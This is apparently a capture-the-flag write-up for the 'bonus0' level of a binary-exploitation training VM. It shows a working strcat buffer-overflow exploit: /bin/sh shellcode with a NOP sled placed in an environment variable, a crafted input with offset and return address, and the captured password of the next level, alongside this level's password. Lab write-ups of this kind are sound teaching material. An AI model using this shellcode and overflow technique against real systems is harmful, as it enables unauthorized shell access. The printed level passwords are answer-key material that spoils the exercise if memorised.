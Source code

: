 # Bonus 0
*password : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*

## Analyze
```
$ scp -P 4242 bonus0@192.168.56.108:bonus0 binary/
```
~uVar2 => inverse each bit
```
    *(undefined2 *)(str + (~uVar2 - 1)) = 32;
```
32 = `space`\
put a space at the end of input1\
ex: if no overflow output = "input1`space`input2"

## Buffer overflow : strcat exploit

- "reduce" shellcode :
```
$ scp -P 4242 bonus0/Ressources/getenv.c bonus0@192.168.56.108:/tmp/
```
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
$ cd /tmp
$ gcc getenv.c
$ ./a.out
0xbffff83f
```
- overflow on the input 2
- compute offset : 9

```
$ python -c 'print "\x90" * 4095 + "\n" + "\x90" * 9 + "\x3f\xf8\xff\xbf" + "\x42" * 8' > /tmp/bonus0
$ cat /tmp/bonus0 - | ./bonus0 
...
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
